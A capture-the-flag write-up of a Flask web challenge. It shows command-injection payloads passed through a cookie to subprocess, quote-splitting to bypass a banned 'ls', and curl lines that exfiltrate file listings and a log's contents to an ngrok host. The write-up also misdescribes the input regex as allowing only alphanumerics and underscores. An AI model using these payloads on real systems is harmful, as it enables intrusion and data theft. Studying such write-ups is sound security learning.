

## Introduction


A "Are you single, and ready to mingle" kind of website, asking for an input, written in Belarussian.
Once you open the code, you spot a link `/code` which leads to the source code of the website.

## Analysis

The source code:

```py
# unknown funcion called cupid
from internal import cupid

from flask import Flask, render_template, request, send_file, make_response
import subprocess # execute linux commands
import re # regex

app = Flask(__name__, static_url_path='/static')

@app.get("/")
def index():
    # get a cookie named visitor
    # pass it to cupid function, along with subprocess
    # if cupid returns a value, set a cookie named notification
    visitor = request.cookies.get('visitor')
    out = cupid(visitor, subprocess)
    resp = make_response(render_template('index.html'))

    if out:
        resp.set_cookie('notification', out)
    return resp


@app.post("/")
def post():
    # get a form input named pretty-name
    # if it matches the regex, put it in the template
    name = request.form['pretty-name']
    if not re.match(r'^[</>()\'a-zA-Z0-9_]+$', name):
        return render_template('index.html', name='mmmmm no')
    return render_template('index.html', name="Hi "+name)

@app.get("/code")
def code():
    # return the source code
    return send_file(__file__)
```

Basically we have a couple of endpoints to handle, the `GET /` and the `POST /`.
The post endpoint is pretty simple, it just checks if the input matches the regex, and if it does, it returns a template with the input in it. It could be used to inject some SSTI payloads, but the regex is too strict, only allowing alphanumeric characters and underscores, only.

In the `GET /` endpoint, we can see that the `cupid` function is called, and it's passed the `visitor` cookie and the `subprocess` module. Which looks like a good place to start.

Since the `cupid` function is unknown, we can consider it a blackbox and we have to learn its behavior, an our entry will be through the `visitor` cookie. And since it is passed with the `subprocess` module, we can assume that there's something like `subprocess.Popen` or `subprocess.call` in the `cupid` function and a part of the cookie will be passed as an argument or maybe a command. And whatever we get back from the `cupid` function, we will analyze it based on what we get from the `notification` cookie.

We start by `whoami`:



we get no output, so maybe the command is wrapped? Let's try `&& whoami #` to escape the previous command and comment the rest:


Nothing yet, a friend of mine always suggests to try to cause an error, so let's try `&& whoa mi #` where `whoa` is a non-existing command:


And now we get an error inside the `notification` cookie, so we can assume that the `cupid` function is using `subprocess.Popen` and the `visitor` cookie is being used, but we are only getting the `stderr` output, not the `stdout` output. So we have to find a way to leak our data through the `stderr` output.


Assuing there's a file called `flag.txt`, and we read it then execute the output of the file as a command, we will get an error, and the error will contain the flag. So let's try ```&& `whoami` #```:


We get the output we are seeking using that technique, trying to `ls` the current directory:


"You wanna list, I got a list too", is the output we get, We assume then that the `ls` is a banned command, to keep things simple, we will try to read all the files in the current directory that contain the piece of the flag `Securinets{`, with the command `grep -r Securinets{ .`:


And we get the flag directly, which was laying in the path `./.creep/unshown.log`

## Conclusion

## Flag
> `Securinets{N_1f_Ur_Kr33p1nG_pLz_d0nT_l3t_1t_X0w}`


## Other payloads

```sh

&& `find . -type f` #
&& `'l''ls'` # 
# escaping ls with 'l''s' then try to capture file by file and analyse the output
```

## Unintended

### Using Intruders

```sh
&& curl "https://03ea-196-178-137-213.eu.ngrok.io/"`'l''s' -a | tr '\n' '_'`  #
&& curl "https://03ea-196-178-137-213.eu.ngrok.io/"`'l''s' -a .creep | tr '\n' '_'`  #
&& curl "https://03ea-196-178-137-213.eu.ngrok.io/"`'ca''t' .creep/unshown.log`  #
```
